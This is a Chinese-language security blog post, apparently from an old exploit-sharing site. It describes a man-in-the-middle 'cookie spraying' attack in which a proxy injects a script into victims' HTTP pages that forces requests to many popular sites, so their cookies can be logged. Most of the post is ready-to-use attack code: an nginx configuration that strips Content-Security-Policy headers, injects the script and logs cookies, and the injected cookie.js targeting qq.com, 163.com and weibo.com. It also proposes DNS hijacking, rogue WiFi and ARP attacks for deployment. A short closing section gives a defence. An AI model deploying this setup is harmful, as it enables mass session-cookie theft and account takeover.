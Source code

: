 # 中间人攻击 -- Cookie喷发

0x00 前言
=====

分享个中间人攻击姿势，屡试不爽。

原本[是篇老文](http://www.cnblogs.com/index-html/p/mitm-cookie-sniffer.html)，不过写的太啰嗦。今天用简明的文字，重新讲一遍。

0x01 原理
=====

传统 cookie 嗅探，只能获得用户主动访问的站点。不访问就抓不到，效率很低。

如果流量可控，不如在用户访问的页面中注入一个脚本。通过脚本，就可以请求任意站点：

```
new Image().src = 'http://anyhost'

```

因为请求头部会带上 cookie，所以能把任意站点的 cookie 骗上流量，让中间人拿到。

0x02 爆发
=====

首先收集各大网站域名，然后挨个来一发：

```
var list = ['qq.com', '163.com', 'weibo.com', ...];

for (var i of list) {
    new Image().src = 'http://' + i + '/__cookie';
}

```

这样，就能把用户各种网站的 cookie 都爆上一遍。

后端收到`/__cookie`请求，记录其中的 cookie，然后返回一个空内容。于是只需极小的流量，就可以测试一个站点。

0x03 优化
=====

因为收集了各种站点，所以需要大量的域名解析。

为了让爆破更快，可以再劫持用户的 DNS 请求，暂时解析成自己 IP，这样域名查询就不用走外网。

```
       DNS
     <----->
用户          中间人       外网
     <----->
       HTTP

```

同时还有个巨大的好处：整个系统不依赖外网，可以离线劫持！

比如在没互联网的地方，开一个 WiFi 就能攻击。

0x04 演示
=====

我们用 nginx 来演示：

```
# nginx.conf

http {
    resolver            114.114.114.114;
    ...

    log_format          record_cookie '$time_iso8601 $remote_addr $http_host $http_cookie';

    # 静态资源
    server {
        listen          8080;
        server_name     m.io;
        gzip            on;
        #expires         1d;
        root            /path/to/;
    }

    # 代理服务
    server {
        listen          8080 default_server;
        server_name     _;
        gzip            on;

        location / {
            # 请求的是 html 资源，进入劫持流程
            if ($http_accept ~ "text/html") {
                rewrite             ^   /__html;
            }
            # 其他资源，正常代理
            proxy_pass              http://$http_host;
        }

        # 页面注入
        location = /__html {
            internal;

            # 压缩的内容无法 sub_filter，先解压
            proxy_set_header        host    $http_host;
            proxy_pass              http://127.0.0.1:50000$request_uri;

            # 删除 CSP 头，防止被阻挡
            proxy_hide_header       Content-Security-Policy;

            # 注入脚本
            sub_filter              <head   "<script src=//m.io/cookie.js></script><head";
        }

        # 记录 cookie
        location = /__cookie {
            access_log              /path/to/cookies.log  record_cookie;

            # 设置缓存时间
            # 避免每次访问页面，都产生大量请求（其实在 js 里判断会更好）
            add_header              Cache-Control   "max-age=3600";

            # 返回空内容
            return                  200;
        }
    }

    # 解压服务
    server {
        listen          127.0.0.1:50000;
        gunzip          on;

        location / {
            proxy_set_header        Accept-Encoding     deflate;
            proxy_pass              http://$host;
        }
    }
}

```

在`/path/to`目录下，放置前端攻击脚本：

```
// cookie.js

(function(list) {
    if (self != top) return;

    list = list.split(' ');

    for (var i = 0; i < list.length; i++) {
        new Image().src = 'http://' + list[i] + '/__cookie';
    }
})(
    // 目标站点列表
    '163.com qq.com weibo.com'
)

```

把浏览器的 HTTP 代理设成 127.0.0.1:8080，就可以演示了。

打开任意 HTTP 页面，就可以爆出用户的各种 Cookie：

![p1](http://drops.javaweb.org/uploads/images/bca8ab4e07c4b6615f63cbd4b6292700bfb9faae.jpg)

![p2](http://drops.javaweb.org/uploads/images/c0196918f724c607c7a87b40c4872535af81506c.jpg)

实战方式有很多，能控制流量就行。比如 ARP 攻击、钓鱼 WiFi、钓鱼代理，或者[劫持小区 PPPoE 网络](http://fex.baidu.com/blog/2014/04/traffic-hijack/)，等等。

0x05 防范
=====

其实和 JSONP 隐私泄露类似，关闭浏览器「第三方 cookie」即可。

三方 cookie 百害而无一利，隐私泄露的罪魁祸首。